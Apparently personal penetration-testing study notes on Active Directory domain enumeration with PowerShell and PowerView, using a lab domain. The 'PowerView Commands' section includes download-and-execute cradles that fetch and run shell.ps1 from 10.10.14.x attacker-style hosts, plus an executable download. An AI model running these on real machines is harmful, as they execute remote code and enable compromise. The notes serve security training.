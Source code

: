 
```powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
$ADClass::GetCurrentDomain()
```


Workstation in Parent Domain

![[2022-01-05 19_54_02-Workstation01 - Oracle VM VirtualBox.png]]


Workstation in Child Domain

![[2022-01-05 19_55_59-01-DomainEnumeration-Part1.mp4 - VLC media player.png]]



## Automation Scripts

1. [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
2. [AD Powershell Module](https://github.com/samratashok/ADModule)

there are 2 more things apart form this in the manual part 

## PowerView Commands

**Download PowerView:**
```powershell
Powershell.exe invoke-webrequest -Uri http://10.10.14.28/bfill.exe -OutFile bfill.exe
```

**Download and Execute PS1:**

```powershell
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1') 
# or 
powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14/shell.ps1')"
```



### Domain
- Get current domain
```powershell
Get-NetDomain
Get-Domain -Domain <domain_name>
```
- Get object of another domain
```powershell
Get-NetDomain -Domain moneycorp.local
```
- Get domain SID for the current domain
```powershell
Get-DomainSID
```
- Get domain controllers for the current domain
```powershell
Get-NetDomainController
```
- Get domain controllers for another domain
```powershell
Get-NetDomainController -Domain moneycontrol.local
```
